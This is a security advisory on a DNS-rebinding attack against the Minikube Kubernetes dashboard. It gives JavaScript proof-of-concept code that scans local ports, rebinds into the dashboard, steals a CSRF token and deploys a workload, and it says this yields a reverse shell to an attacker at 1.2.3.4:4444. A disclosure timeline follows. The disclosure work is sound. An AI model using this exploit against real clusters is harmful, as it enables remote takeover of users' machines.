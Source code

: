 ```javascript
const netmap = new NetMap()

// this function runs first on the original page
// it'll scan hosts/ports and open an iFrame for the rebind attack
async function main () {
  netmap.tcpScan(hosts, ports).then(results => {
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// this function runs in rebinding iframes
function rebind () {
  // after this, the Origin maps to the Kubernetes dashboard host:port
  session.triggerRebind().then(() => {
    network.get(session.baseURL + tokenPath, {
      successCb: (code, headers, body) => {
        const token = JSON.parse(body).token

        network.postJSON(session.baseURL + deployPath, {
          'name': '',
          'namespace': 'default',
          'validate': true,
          'content': deployment
        }, {
          headers: {
            'X-CSRF-TOKEN': token
          }
        })
      }
    })
  })
}

if (window.args && window.args._rebind) rebind()
else main()
```

A Minikube user visiting `http://minikube.{dref_domain}.com` will be exploited and a reverse shell with the host’s file system mounted will be given to the attacker on `1.2.3.4:4444`.

## ## Detailed Timeline

| 2018-09-29 | Issue communicated to Kubernetes security contact |
| 2018-10-02 | Confirmation of receipt by Kubernetes |
| 2018-10-04 | Kubernetes advise that the release the following day will remediate the issue |
| 2018-10-05 | Minikube 0.30.0 released with remediation |
